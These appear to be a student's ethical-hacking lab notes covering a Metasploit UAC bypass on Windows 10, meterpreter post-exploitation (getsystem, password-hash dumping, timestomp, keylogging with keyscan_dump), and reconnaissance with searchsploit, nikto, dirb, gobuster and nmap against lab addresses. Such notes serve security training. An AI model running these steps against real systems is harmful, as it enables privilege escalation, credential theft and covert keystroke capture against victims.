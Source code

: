- `set LHOST 10.10.10.11`
- `set TARGET 0`
- `exploit`
- **This begins to exploit the UAC settings in Windows 10 machine, BypassUAC exploit has successfully bypassed the UAC setting on the Windows 10 machine**
- got meterpreter session
- `getuid`, still normal user
- attempt to elevate privileges - `getsystem`
- `getuid` → meterpreter session is now running with SYSTEM privileges (NT AU- HORITY\SYSTEM)
- **try to dump the password hashes -** `run post/windows/gather/smart_hashdump`
----------------------------------------------------------------------------------------------------------------
Hacking Windows 10 using Metasploit, and Post-Exploitation Using Meterpreter**
    - create a secret file on desktop & make exploit with name backdoor.exe, transfer it windows and execute it as above one
    - **view the MACE attributes of secret.txt (created time, accessed time, modified time, and entry modified time)** - `timestomp secret.txt -v`
    - `cd C:\`
    - `download bootmgr`
    - `search -f "filename.ext" (here pagefile.sys)`
    - **capture all keyboard input from the victim system -**  `keyscan_start`
    - Click Windows 10, and type some information in the secret.txt file
    - Click Kali Linux machine. Type `keyscan_dump` and press Enter. This dumps all the keystrokes
  - `idletime` → Issuing this command displays the number of seconds for which the user has been idle on the remote system.
----------------------------------------------------------------------------------------------------------------
CEWL & SEARCHSLOIT & NIKTO:
•	cewl example.com -m 5 -w words.txt
•	searchsploit "Linux Kernel"
•	searchsploit -m 7618 — Paste the exploit in the current directory
•	searchsploit -p 7618[.c] — Show complete path
•	searchsploit --nmap file.xml — Search vulns inside a Nmap XML result
•	nikto -h http://www.goodshopping.com Tuning 1

DIRECTORY BUSTING: (DIRB & GOBUSTER)

DIRB:
•	dirb <URL>(using default word list - /usr/share/dirb/wordlists/common.txt), dirb <http://webscantest.com>
•	dirb <URL> <wordlist_location>
•	dirb <http://10.10.230.124/> -X .php,.html → Enumerating Directory with Specific Extension List
•	dirb <http://10.10.230.124/> -o output.txt → Save Output to Disk
•	DirBuster
GOBUSTER:
•	gobuster dir -u <http://10.10.230.124/> -w /usr/share/wordlists/dirb/common.txt 2>/dev/null
•	gobuster dir -u <http://10.10.230.124/> -x txt,html -w /usr/share/wordlists/dirb/common.txt 2>/dev/null → Enumerating Directory with Specific Extension List
•	gobuster dir -u <http://10.10.230.124/dvwa> -w /usr/share/wordlists/dirb/common.txt -o output.txt 2>/dev/null → Save Output to Disk
	
CLOUD COMPUTING (OWNCLOUD)
SOME EXTRA WORK:
	Check RDP enabled after getting ip- nmap -p 3389 -iL ip.txt | grep open (ip.txt contains all the alive hosts from target subnet)
	Check MySQL service running- nmap -p 3306 -iL ip.txt | grep open        (ip.txt contains all the alive hosts from target subnet)

